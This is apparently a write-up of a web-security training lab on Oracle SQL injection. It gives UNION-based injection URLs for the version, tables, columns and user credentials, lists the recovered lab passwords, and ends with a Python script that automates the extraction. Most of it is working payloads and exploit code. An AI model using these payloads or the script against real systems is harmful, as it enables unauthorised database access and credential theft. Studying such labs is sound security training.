


# Lab: SQL injection attack, listing the database contents on Oracle

URL: https://0ae0003e0468a12a83115fc800e800cb.web-security-academy.net/

## Sitemap:

URL: `https://0ae0003e0468a12a83115fc800e800cb.web-security-academy.net/`

URL: `https://0ae0003e0468a12a83115fc800e800cb.web-security-academy.net/filter?category=Accessories`

## Exploitation:

- https://chartio.com/resources/tutorials/how-to-list-all-tables-in-oracle/
- https://dataedo.com/kb/query/oracle/list-columns-names-in-specific-table

### Getting 500:

URL: `https://0ae0003e0468a12a83115fc800e800cb.web-security-academy.net/filter?category=Accessories'`


### Getting the number of fields:

URL: `https://0ae0003e0468a12a83115fc800e800cb.web-security-academy.net/filter?category='+UNION+SELECT+NULL,NULL+from+v$version--+-`



### Getting the version:

URL: `https://0ae0003e0468a12a83115fc800e800cb.web-security-academy.net/filter?category='+UNION+SELECT+BANNER,NULL+from+v$version--+-`


### Getting all tables:

URL: `https://0ae0003e0468a12a83115fc800e800cb.web-security-academy.net/filter?category='+UNION+SELECT+table_name,NULL+from+user_tables--+-`



### Get table columns:

URL: `https://0ae0003e0468a12a83115fc800e800cb.web-security-academy.net/filter?category='+UNION+SELECT+column_name,NULL+from+sys.all_tab_columns+where+table_name='USERS_XCIFLY'--+-`


### Getting username and password:

URL: `https://0ae0003e0468a12a83115fc800e800cb.web-security-academy.net/filter?category='+UNION+SELECT+USERNAME_VXRARA,NULL+from+USERS_XCIFLY--+-`

URL: `https://0ae0003e0468a12a83115fc800e800cb.web-security-academy.net/filter?category='+UNION+SELECT+PASSWORD_CPCISI,NULL+from+USERS_XCIFLY--+-`


URL: `https://0ae0003e0468a12a83115fc800e800cb.web-security-academy.net/filter?category='+UNION+SELECT+PASSWORD_CPCISI,NULL+from+USERS_XCIFLY--+-`


Data:

- `administrator:1skhu21y87knnkjemier`
- `carlos:kdixwfc91md16spnszfk`
- `wiener:nsbsmz2uhgkbk7cie3s7`

## Automation:

```python
                                                                                  ─╯
#!/usr/bin/python3
##
import requests
import re
import pwn
##
Payload1="/filter?category='+UNION+SELECT+"
##
def get_version(URL):
    send=URL+Payload1+"BANNER,NULL+from+v$version--+-"
    r=requests.get(send)
    version=[]
    for X in re.findall("<th>.*</th>",r.text):
        version.append(X.split(">")[1].split("<")[0])
    return ''.join(version)
##
def get_tables(URL):
    send=URL+Payload1+"table_name,NULL+from+user_tables--+-"
    r=requests.get(send)
    tables=[]
    for X in re.findall("<th>.*</th>",r.text):
        tables.append(X.split(">")[1].split("<")[0])
    return tables
##
def get_cols(URL,users):
    send=URL+Payload1+f"column_name,NULL+from+sys.all_tab_columns+where+table_name='{users}'--+-"
    r=requests.get(send)
    cols=[]
    for X in re.findall("<th>.*</th>",r.text):
        cols.append(X.split(">")[1].split("<")[0])
    return cols
##
def pwn(URL,cols,users):
    usernames=[]
    passwords=[]
    data=[]
    tmp=cols[0]
    send=URL+Payload1+f"{tmp},NULL+from+{users}--+-"
    r=requests.get(send)
    for X in re.findall("<th>.*</th>",r.text):
        usernames.append(X.split(">")[1].split("<")[0])
    tmp=cols[1]
    send=URL+Payload1+f"{tmp},NULL+from+{users}--+-"
    r=requests.get(send)
    for X in re.findall("<th>.*</th>",r.text):
        passwords.append(X.split(">")[1].split("<")[0])
    for i in range(0,len(passwords),1):
        data.append((usernames[i],passwords[i]))
    return data
##
def main(URL):
    version=get_version(URL)
    print(f"The version is: {version}")
    #
    tables=get_tables(URL)
    print(f"The tables are: {tables}")
    #
    cols=get_cols(URL,tables[1])
    print(f"The columns are: {cols}")
    #
    data=pwn(URL,cols,tables[1])
    print(f"The stolen data are:\n{data}")
##
main("https://0a3c00b404568dca826e756700a900c6.web-security-academy.net")
```
